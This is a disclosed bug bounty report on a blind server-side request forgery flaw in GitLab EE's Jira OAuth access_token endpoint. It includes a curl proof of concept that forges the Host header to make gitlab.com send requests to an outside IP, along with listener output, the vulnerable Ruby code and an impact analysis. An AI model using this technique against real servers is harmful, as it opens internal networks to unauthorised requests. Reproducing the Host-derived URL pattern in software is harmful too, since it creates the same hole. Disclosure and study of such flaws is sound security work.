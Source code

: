 # Unauthenticated blind SSRF in OAuth Jira authorization controller

## Report Details
- **Report ID**: 398799
- **URL**: https://hackerone.com/reports/398799
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-08-24T03:05:22.400Z
- **Disclosed**: 2019-03-14T16:28:39.097Z

## Reporter
- **Username**: jobert
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
The `Oauth::Jira::AuthorizationsController#access_token` endpoint is vulnerable to a blind SSRF vulnerability. The vulnerability allows an attacker to make arbitrary HTTP/HTTPS requests inside a GitLab instance's network.

# Proof of concept
To reproduce the vulnerability, follow the steps below.

 - spin up a GitLab EE instance with the latest version (11.2.1-ee)
 - send a `POST` request to the `/-/jira/login/oauth/callback` endpoint, as shown below. In the request, point the `Host` header to the hostname / IP address and port number you want to send the request to:

```
curl -X POST -H 'Host: 162.243.147.21:81' 'https://gitlab.com/-/jira/login/oauth/access_token'
```

 - Observe a `POST` request being sent to `162.243.147.21:81` (in this case HTTPS):

```
Listening on [0.0.0.0] (family 0, port 81)
Connection from [35.231.137.154] port 81 [tcp/*] accepted (family 2, sport 58558)
��ؒ����
��/$����4�i�,�֟J%>�+�/�,�0�����#�'�	��$�(�
�gk39@j28��<=/5�l162.243.147.21

 Connection closed, listening again.
```

# Vulnerable code
The following code can be found in the `Oauth::Jira::AuthorizationsController#access_token` method.

```ruby
def access_token
  auth_params = params
                  .slice(:code, :client_id, :client_secret)
                  .merge(grant_type: 'authorization_code', redirect_uri: oauth_jira_callback_url)

  auth_response = Gitlab::HTTP.post(oauth_token_url, body: auth_params, allow_local_requests: true)
  token_type, scope, token = auth_response['token_type'], auth_response['scope'], auth_response['access_token']

  render text: "access_token=#{token}&scope=#{scope}&token_type=#{token_type}"
end
```

The `GItlab::HTTP.post` call is using the `oauth_token_url` directly. This `_url` Rails routing helper uses the `Host` header to construct the URL it needs to point to. Because every host is accepted in GitLab, the constructed URL can point to an internal system. This is how it's supposed to work. However, the `Host` header should be checked before making the `post` call to avoid an attacker being able to make arbitrary requests.

## Impact

The response of the server is actually interpreted, but this is limited to a JSON response that returns an `access_token`, `scope`, and `token_type`. However, this may have additional consequences in case there are unauthenticated endpoints within the instance's network. This isn't very likely, which is why the attack complexity is set to High. It has a minor impact on Availability, because a thread is blocked on the TCP read timeout, which is set to 60 seconds (`curl -X POST -H 'Host: 162.243.147.21:81'   0.03s user 0.01s system 0% cpu 1:00.76 total`). The integrity impact is currently set at High, but this depends on additional factors, such as what other internal services can be hit. The user does not need to be authenticated to execute the call.

## Attachments
No attachments
